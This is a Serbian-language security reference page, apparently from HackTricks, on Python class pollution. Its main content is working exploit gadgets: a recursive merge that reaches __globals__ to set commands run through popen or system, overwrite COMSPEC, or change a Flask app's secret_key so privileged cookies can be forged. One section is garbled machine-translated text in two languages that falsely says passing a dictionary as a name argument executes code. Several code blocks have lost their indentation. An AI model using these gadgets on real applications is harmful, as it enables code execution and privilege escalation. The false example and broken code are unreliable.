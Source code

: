 # Class Pollution (Python's Prototype Pollution)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovni primer

Proverite kako je moguće zagađivati klase objekata sa stringovima:

```python
class Company: pass
class Developer(Company): pass
class Entity(Developer): pass

c = Company()
d = Developer()
e = Entity()

print(c) #<__main__.Company object at 0x1043a72b0>
print(d) #<__main__.Developer object at 0x1041d2b80>
print(e) #<__main__.Entity object at 0x1041d2730>

e.__class__.__qualname__ = 'Polluted_Entity'

print(e) #<__main__.Polluted_Entity object at 0x1041d2730>

e.__class__.__base__.__qualname__ = 'Polluted_Developer'
e.__class__.__base__.__base__.__qualname__ = 'Polluted_Company'

print(d) #<__main__.Polluted_Developer object at 0x1041d2b80>
print(c) #<__main__.Polluted_Company object at 0x1043a72b0>
```

## Osnovni primer ranjivosti

Consider the following Python code:

Razmotrite sledeći Python kod:

```python
class Person:
    def __init__(self, name):
        self.name = name

person = Person("John")
print(person.name)
```

This code defines a `Person` class with a constructor that takes a `name` parameter and assigns it to the `name` attribute of the object. An instance of the `Person` class is created with the name "John" and the `name` attribute is printed.

Ovaj kod definiše klasu `Person` sa konstruktorom koji prima parametar `name` i dodeljuje ga atributu `name` objekta. Instanca klase `Person` se kreira sa imenom "John" i ispisuje se atribut `name`.

Now, let's say an attacker can control the `name` parameter passed to the constructor:

Sada pretpostavimo da napadač može da kontroliše parametar `name` koji se prosleđuje konstruktoru:

```python
class Person:
    def __init__(self, name):
        self.name = name

name = input("Enter your name: ")
person = Person(name)
print(person.name)
```

In this modified code, the `name` parameter is obtained from user input. This introduces a potential vulnerability because the user can provide unexpected input.

U ovom izmenjenom kodu, parametar `name` se dobija iz korisničkog unosa. Ovo uvodi potencijalnu ranjivost jer korisnik može da pruži neočekivan unos.

For example, if the user enters a dictionary as the `name` input:

Na primer, ako korisnik unese rečnik kao unos za `name`:

```python
name = {"__class__": "Person", "__init__": "print('Hacked!')"}
person = Person(name)
print(person.name)
```

The `name` parameter is now a dictionary with special keys `__class__` and `__init__`. When the `Person` object is created, the `__init__` method of the `Person` class is called with the value `"print('Hacked!')"`. This allows the attacker to execute arbitrary code.

Sada je parametar `name` rečnik sa posebnim ključevima `__class__` i `__init__`. Kada se kreira objekat `Person`, poziva se metoda `__init__` klase `Person` sa vrednošću `"print('Hacked!')"`. Ovo omogućava napadaču da izvrši proizvoljni kod.

```python
# Initial state
class Employee: pass
emp = Employee()
print(vars(emp)) #{}

# Vulenrable function
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)


USER_INPUT = {
"name":"Ahemd",
"age": 23,
"manager":{
"name":"Sarah"
}
}

merge(USER_INPUT, emp)
print(vars(emp)) #{'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
```

## Primeri uređaja

<details>

<summary>Kreiranje podrazumevane vrednosti svojstva klase za RCE (subprocess)</summary>

\`\`\`python from os import popen class Employee: pass # Creating an empty class class HR(Employee): pass # Class inherits from Employee class class Recruiter(HR): pass # Class inherits from HR class

class SystemAdmin(Employee): # Class inherits from Employee class def execute\_command(self): command = self.custom\_command if hasattr(self, 'custom\_command') else 'echo Hello there' return f'\[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):

## Recursive merge function

for k, v in src.items(): if hasattr(dst, '**getitem**'): if dst.get(k) and type(v) == dict: merge(v, dst.get(k)) else: dst\[k] = v elif hasattr(dst, k) and type(v) == dict: merge(v, getattr(dst, k)) else: setattr(dst, k, v)

USER\_INPUT = { "**class**":{ "**base**":{ "**base**":{ "custom\_command": "whoami" } } } }

recruiter\_emp = Recruiter() system\_admin\_emp = SystemAdmin()

print(system\_admin\_emp.execute\_command()) #> \[!] Executing: "echo Hello there", output: "Hello there"

## Create default value for Employee.custom\_command

merge(USER\_INPUT, recruiter\_emp)

print(system\_admin\_emp.execute\_command()) #> \[!] Executing: "whoami", output: "abdulrah33m"

````
</details>

<details>

<summary>Zagađivanje drugih klasa i globalnih promenljivih putem <code>globals</code></summary>
```python
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class User:
def __init__(self):
pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
````

</details>

<details>

<summary>Proizvoljno izvršavanje podprocesa</summary>

\`\`\`python import subprocess, json

class Employee: def **init**(self): pass

def merge(src, dst):

## Recursive merge function

for k, v in src.items(): if hasattr(dst, '**getitem**'): if dst.get(k) and type(v) == dict: merge(v, dst.get(k)) else: dst\[k] = v elif hasattr(dst, k) and type(v) == dict: merge(v, getattr(dst, k)) else: setattr(dst, k, v)

## Overwrite env var "COMSPEC" to execute a calc

USER\_INPUT = json.loads('{"**init**":{"**globals**":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"\}}\}}\}}') # attacker-controlled value

merge(USER\_INPUT, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up

````
</details>

<details>

<summary>Prepisivanje <strong><code>__kwdefaults__</code></strong></summary>

**`__kwdefaults__`** je poseban atribut svih funkcija, prema Python [dokumentaciji](https://docs.python.org/3/library/inspect.html), to je "mapiranje svih podrazumevanih vrednosti za **samo-ključne** parametre". Zagađivanje ovog atributa nam omogućava kontrolu podrazumevanih vrednosti samo-ključnih parametara funkcije, to su parametri funkcije koji dolaze posle \* ili \*args.
```python
from os import system
import json

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class Employee:
def __init__(self):
pass

def execute(*, command='whoami'):
print(f'Executing {command}')
system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami
#> user

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
#> Polluted
````

</details>

<details>

<summary>Prepisivanje tajne Flask-a između fajlova</summary>

Dakle, ako možete izvršiti klasnu zagađenost nad objektom koji je definisan u glavnom Python fajlu veba, **čija je klasa definisana u drugom fajlu** od glavnog. Zato što biste, da biste pristupili \_\_globals\_\_ u prethodnim payloadima, morali pristupiti klasi objekta ili metodama klase, moći ćete **pristupiti globalima u tom fajlu, ali ne i u glavnom**.\
Stoga, **nećete moći pristupiti globalnom objektu Flask-a** koji je definisao **tajni ključ** na glavnoj stranici:

```python
app = Flask(__name__, template_folder='templates')
app.secret_key = '(:secret:)'
```

U ovom scenariju vam je potreban uređaj za pretraživanje datoteka kako biste došli do glavne datoteke i **pristupili globalnom objektu `app.secret_key`** kako biste promenili Flask tajni ključ i bili u mogućnosti da [**povećate privilegije** znajući ovaj ključ](../../network-services-pentesting/pentesting-web/flask.md#flask-unsign).

Payload poput ovog [iz ovog članka](https://ctftime.org/writeup/36082):

{% code overflow="wrap" %}
```python
__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
{% endcode %}

Koristite ovaj payload da **promenite `app.secret_key`** (naziv u vašoj aplikaciji može biti drugačiji) kako biste mogli da potpišete nove i privilegovane flask kolačiće.

</details>

Pogledajte takođe sledeću stranicu za više "read-only" gedžeta:

{% content-ref url="python-internal-read-gadgets.md" %}
[python-internal-read-gadgets.md](python-internal-read-gadgets.md)
{% endcontent-ref %}

## Reference

* [https://blog.abdulrah33m.com/prototype-pollution-in-python/](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
